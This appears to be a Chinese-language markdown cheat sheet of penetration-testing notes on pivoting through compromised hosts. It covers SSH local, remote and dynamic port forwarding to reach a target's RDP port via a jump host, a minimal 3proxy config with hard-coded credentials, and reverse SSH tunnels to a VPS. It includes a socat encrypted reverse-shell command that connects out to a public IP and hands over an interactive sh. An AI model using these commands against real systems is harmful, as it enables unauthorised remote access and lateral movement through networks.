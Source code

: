 
# SSH 

---
## 本地端口转发
通过访问VPS的1153访问B的3389<br />VPS执行<br />`ssh -CfNg -L 1153(VPS端口):1.1.1.10:3389(目标B端口) root@192.168.1.11(跳板A)`
## 远程端口转发
通过访问VPS的1153访问B的3389<br />跳板A执行<br />`ssh -CfNg -R 1153(VPS端口):1.1.1.10(目标主机B):3389 root@192.168.1.4(跳板A)`
## 动态转发(socks 4/5)
`ssh -CfNg -D 7000 root@192.168.1.11`
# Socat
监听：`socat tty,raw,echo=0 openssl-listen:80,fork,reuseaddr,cert=cert.pem,verify=0`<br />反弹：`socat openssl-connect:106.53.248.32:80,verify=0 exec:sh,pty,stderr,setsid,sigint,sane`<br />注：对于freebsd，命令里面的setsid调用也许对防止僵尸进程的产生有很大缓解<br />注：BSD中似乎有bug不能交互，用python spawn即可
# 3proxy
FreeBSD代理软件3proxy最简单配置文件：
```
daemon
timeouts 1 5 30 60 180 1800 15 60
users vpn:CL:vpn9527
auth strong
allow vpn
# socks proxy
socks -p1080 
# http proxy
proxy -p1081
flush
```
3proxy的安装（低版本9.1）和出网
` pkg_add -r http://ftp-archive.freebsd.org/pub/FreeBSD-Archive/ports/amd64/packages-9.1-release/Latest/3proxy.tbz`
如上配置启动
` 3proxy 1.cfg`
转发端口到VPS，默认情况下VPS上监听127.0.0.1:8022 8023
`ssh -p 22 -qfN -R 8022:localhost:1080 -R 8023:localhost:1081 root@192.168.157.133`
如果需要团队使用，更改vps上sshd_config变更GatewayPorts yes后重启sshd

保持连接有时候对SSH隧道稳定性很重要，VPS修改sshd_config  
ClientAliveInterval 30  
ClientAliveCountMax 3

